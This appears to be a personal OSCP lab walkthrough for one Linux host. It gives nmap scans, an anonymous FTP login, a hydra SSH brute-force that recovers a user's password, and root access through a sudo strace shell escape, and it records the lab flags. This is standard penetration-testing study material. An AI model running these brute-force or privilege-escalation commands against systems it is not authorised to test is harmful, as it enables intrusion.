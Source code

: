 # Loot

```
local.txt
bee0fce51a0ecf6ada8808f2a83624b2

proof.txt
0b2b836dd6ebf9e62cf9c4dfb7dd4805



```
![[{1BFBF2EE-2C12-45CF-967B-A0C124831E67}.png]]
![[{117CE66E-93E7-4EF3-AFBD-33B2EE39B5E0}.png]]

# Scans
## nmap 
### quick scan

```
┌──(kali㉿kali)-[~/OSCP/Exam/192.168.114.110]
└─$ nmap -sV 192.168.114.110                                                                               
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 09:04 EDT
Nmap scan report for 192.168.114.110
Host is up (0.25s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      vsftpd 3.0.5
22/tcp open   ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
53/tcp closed domain
80/tcp open   http     Apache httpd 2.4.52
Service Info: Host: 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.96 seconds
                                                                
```
### full scan 

```
# Nmap 7.95 scan initiated Mon Jun  9 09:16:57 2025 as: /usr/lib/nmap/nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/OSCP/Exam/192.168.114.110/results/192.168.114.110/scans/_full_tcp_nmap.txt -oX /home/kali/OSCP/Exam/192.168.114.110/results/192.168.114.110/scans/xml/_full_tcp_nmap.xml 192.168.114.110
Nmap scan report for 192.168.114.110
Host is up, received user-set (0.25s latency).
Scanned at 2025-06-09 09:16:57 EDT for 647s
Not shown: 65530 filtered tcp ports (no-response)
PORT   STATE  SERVICE  REASON         VERSION
20/tcp closed ftp-data reset ttl 63
21/tcp open   ftp      syn-ack ttl 63 vsftpd 3.0.5
22/tcp open   ssh      syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a7:09:ae:7c:78:41:c7:a8:b4:41:17:20:f5:cd:15:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOr5uCXt89FpAjb9GOQNcVyLaq/OHs7gLBgEF+LvgxP2PeVbxGEW9AGyohwbVwrGZ2EGJasx7N6zdTFus9MoD7c=
|   256 6c:fc:3e:2e:95:6a:54:1e:98:89:0e:c9:97:69:10:b9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL4oFJ6o1QVPOR4nPRBBBfiiLKBrQ1TT/RswHqeNb9sP
53/tcp closed domain   reset ttl 63
80/tcp open   http     syn-ack ttl 63 Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Index of /
Device type: general purpose|firewall|router
Running (JUST GUESSING): Linux 4.X|5.X|6.X|3.X (97%), IPFire 2.X (91%), MikroTik RouterOS 7.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:ipfire:ipfire:2.27 cpe:/o:linux:linux_kernel:5.15 cpe:/o:linux:linux_kernel:6.1 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:3
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 4.19 - 5.15 (97%), Linux 4.15 (92%), IPFire 2.27 (Linux 5.15 - 6.1) (91%), Linux 5.4 (90%), Linux 5.0 - 5.14 (88%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (88%), Linux 3.11 - 4.9 (88%), Linux 3.2 - 3.8 (88%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=6/9%OT=21%CT=20%CU=%PV=Y%DS=2%DC=T%G=N%TM=6846E150%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10C%TI=Z%II=I%TS=A)
SEQ(SP=106%GCD=1%ISR=10D%TI=Z%II=I%TS=A)
OPS(O1=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M551ST11NW7%O6=M551ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M551NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=N)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 46.909 days (since Wed Apr 23 11:39:10 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   248.05 ms 192.168.49.1
2   248.06 ms 192.168.114.110

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  9 09:27:44 2025 -- 1 IP address (1 host up) scanned in 647.70 seconds

```
### udp scan

```
# Nmap 7.95 scan initiated Mon Jun  9 09:16:57 2025 as: /usr/lib/nmap/nmap -vv --reason -Pn -T4 -sU -A --top-ports 100 -oN /home/kali/OSCP/Exam/192.168.114.110/results/192.168.114.110/scans/_top_100_udp_nmap.txt -oX /home/kali/OSCP/Exam/192.168.114.110/results/192.168.114.110/scans/xml/_top_100_udp_nmap.xml 192.168.114.110
Nmap scan report for 192.168.114.110
Host is up, received user-set (0.30s latency).
Scanned at 2025-06-09 09:16:57 EDT for 1862s
All 100 scanned ports on 192.168.114.110 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)
Too many fingerprints match this host to give specific OS details
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=6/9%OT=%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6846E60F%P=x86_64-pc-linux-gnu)
SEQ(II=I)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   299.19 ms 192.168.49.1
2   301.19 ms 192.168.114.110

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  9 09:47:59 2025 -- 1 IP address (1 host up) scanned in 1862.79 seconds

```


# ftp login

Tried default cred, 
ftp : ftp (works)

![[{59DAC0DA-D1A1-402C-B4F8-68A45DD888BA}.png]]

run passive to get out of passive mode 

i can see that i have 2 more user , clay and lisa

# brute force 

since ssh is open, try brute 

```
hydra -l lisa -P /usr/share/wordlists/rockyou.txt ssh://192.168.114.110 -t 4  -vV

```
![[{34875A5F-B71C-4C47-A4CE-6BE98885FEEB}.png]]![[{D0B6ED42-E8F4-4761-A331-FB114971A420}.png]]

i got the cred

```cred 
username: lisa
password: peanut
```


# SSH

ssh lisa@192.168.114.110                                                         

![[{0559A79D-377D-4753-BD2A-CC36DD37DA45}.png]]
![[{1BFBF2EE-2C12-45CF-967B-A0C124831E67}.png]]

```
cat local.txt
bee0fce51a0ecf6ada8808f2a83624b2

```

# priv escalate 

```
$ sudo -l

```

![[{493B1511-E61C-46C7-9CE3-0624765B1AC3}.png]]

seeing that there is (root) /usr/bin/strace

USING THIS EXPLOIT: https://gtfobins.github.io/gtfobins/strace/

```
strace -o /dev/null /bin/sh

```

![[{00377C12-D21D-4025-BA82-402781C15ABB}.png]]

![[{117CE66E-93E7-4EF3-AFBD-33B2EE39B5E0}.png]]


```
cat /home/lisa/local.txt
bee0fce51a0ecf6ada8808f2a83624b2
# cat /root/proof.txt
0b2b836dd6ebf9e62cf9c4dfb7dd4805

```
